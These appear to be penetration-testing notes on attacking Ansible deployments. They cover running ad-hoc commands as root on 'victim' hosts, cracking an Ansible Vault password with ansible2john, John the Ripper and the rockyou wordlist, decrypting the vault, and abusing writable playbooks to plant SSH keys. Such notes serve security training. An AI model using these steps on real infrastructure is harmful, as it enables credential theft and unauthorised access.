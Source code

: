 Ansible configuration directories   -> /etc/ansible   &    /etc/ansible/hosts

2 primary ways to distribute commands:
1. Via Ad-hoc commands, which are stand-alone shell commands to be executed on all the ansible victims machines. Examples:
  
  ```ansible victims -a "whoami"        ansible victims -a "whoami" --become root```

2. Via playbook scripts, these scripts must be in a .yml format and are run in this manner:

     ```ansible-playbook script.yml```

**Ansible Vaults:**

Are encrypted passwords in the playbooks, this is done in order to avoid writting plaintext credentials in a file. The "!vault" keyword, lets Ansible know that the value is vault-encrypted. However, we can try to crack the encryption.

Example of an ansible vault:

```
ansible_become_pass: !vault |
 $ANSIBLE_VAULT;1.1;AES256
 
39363631613935326235383232616639613231303638653761666165336131313965663033313232
 
3736626166356263323964366533656633313230323964300a323838373031393362316534343863
 
36623435623638373636626237333163336263623737383532663763613534313134643730643532
 
3132313130313534300a383762366333303666363165383962356335383662643765313832663238
 3036
```

To crack the password we will first copy the encrypted string to a file named "test.yml", then use the "ansible2john"
(/usr/share/john/ansible2john.py) utility to convert the hash to a format that JTR accepts.

```
Contents of test.yml:
$ANSIBLE_VAULT;1.1;AES256
393636316139353262353832326166396132313036386537616661653361313139656630333132323736626166356263323964366533656633313230323964300a323838373031393362316534343863366234356236383736366262373331633362636237373835326637636135343131346437306435323132313130313534300a3837623663333036663631653839623563353836626437653138326632383036

~# python3 /usr/share/john/ansible2john.py test.yml > testhash.txt

~# john --wordlist=/usr/share/wordlists/rockyou.txt testhash.txt
```

Now, we are ready to decrypt the vault:

```
~# cat test.yml | ansible-vault decrypt
```

**Weak permissions in a playbook:**

If we have write permissions over a playbook, we might be able to gain code execution. Such as creating a new SSH key-pair, and then transferring the public one to the victim, in consequence being able to use our new private SSH key to log into the victim. 
